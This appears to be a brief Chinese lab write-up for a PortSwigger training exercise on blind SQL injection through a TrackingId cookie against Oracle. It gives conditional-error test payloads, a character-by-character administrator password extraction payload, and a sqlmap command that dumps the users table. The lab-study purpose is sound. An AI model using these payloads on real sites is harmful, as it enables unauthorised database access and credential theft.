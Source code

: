确定cookie中的TrackingId 能够sql注入

判断语句：

```javascript
TrackingId=9pD3eC5YpJtrML6B'
+UNION+SELECT+CASE+WHEN+(1=2)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual--
```

返回正确页面

```javascript
TrackingId=9pD3eC5YpJtrML6B'
+UNION+SELECT+CASE+WHEN+(1=1)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual--
```

返回错误页面



判断可以布尔盲注



注入语句：

```javascript
TrackingId='+UNION+SELECT+CASE+WHEN+(username='administrator'
+AND+substr(password,1,1)='§a§')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/SQL/images/CE13B0A107444E5D8C2065455F600196clipboard.png)





sqlmap注入paylaod:

```javascript
sqlmap -u"https://ac891ffd1f32f6ae80db46b200f7003a.web-security-academy.net" 
--dump -T"users" -D"SYSTEM" 
--cookie="TrackingId=9pD3eC5YpJtrML6B; session=hwdAmAUwX0nlRwgriZ5Xls0nyJpTIzDw" 
--level 2 --skip="session" --dbms "oracle"
```

